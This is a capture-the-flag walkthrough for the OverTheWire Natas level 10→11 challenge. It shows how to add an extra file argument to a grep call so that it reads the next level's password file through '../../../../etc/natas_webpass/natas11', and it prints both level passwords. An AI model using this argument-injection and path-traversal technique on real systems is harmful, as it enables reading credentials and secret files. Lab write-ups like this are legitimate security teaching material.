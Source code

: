 ## [Natas Level 10->11](http://natas10.natas.labs.overthewire.org)
#### Natas10 password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

The code is different from the previous level in that the characters '/[;|&]/' are no longer allowed in order to avoid command injection.

However, grep allows searching for items from more than one input file. We can modify
````console
user: ~$ grep -i <word> dictionary.txt
````
to be
````console
user: ~$ grep -i <word> <file> dictionary.txt
````

Search for characters that may be in the file ../../../../etc/natas_webpass/natas11. For example, try the input "a ../../../../etc/natas_webpass/natas11" to get the command
````console
user: ~$ grep -i a ../../../../etc/natas_webpass/natas11 dictionary.txt
```` 
which doesn't yield results. Try replacing "a" with "o" and the output includes the flag. The password for natas11 is U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK.
